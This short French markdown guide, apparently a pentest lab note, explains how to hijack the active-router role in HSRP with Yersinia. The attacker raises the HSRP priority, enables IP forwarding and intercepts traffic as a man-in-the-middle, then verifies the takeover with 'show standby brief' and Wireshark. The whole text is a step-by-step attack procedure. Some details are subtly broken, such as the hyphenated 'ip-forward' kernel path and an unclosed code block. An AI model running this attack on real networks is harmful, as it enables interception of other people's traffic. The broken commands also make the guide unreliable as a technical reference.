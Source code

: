# Attaque HSRP (Hot Standby Router Protocol)

**Objectif** : Prendre le rôle de routeur actif en usurpant la priorité HSRP pour intercepter le trafic.

**Méthode** : Utiliser une priorité HSRP plus élevée pour devenir la passerelle par défaut, capturant ainsi le trafic réseau.

## Étapes et Commandes

1. **Lancer Yersinia pour HSRP** :
   ```
   sudo yersinia -I
2.Usurper le rôle de routeur actif :

Dans Yersinia :
Tapez g pour accéder aux protocoles et sélectionnez HSRP.
Tapez x pour augmenter la priorité HSRP à 120.
Tapez Enter pour envoyer les paquets HSRP.
Activer le forwarding IP :


echo 1 > /proc/sys/net/ipv4/ip-forward
Résultat Attendu et Vérification
Résultat : L’attaquant devient la passerelle par défaut.
Vérification : Utilisez show standby brief pour confirmer que Kali Linux est le routeur actif, et vérifiez le trafic réseau avec Wireshark.


---
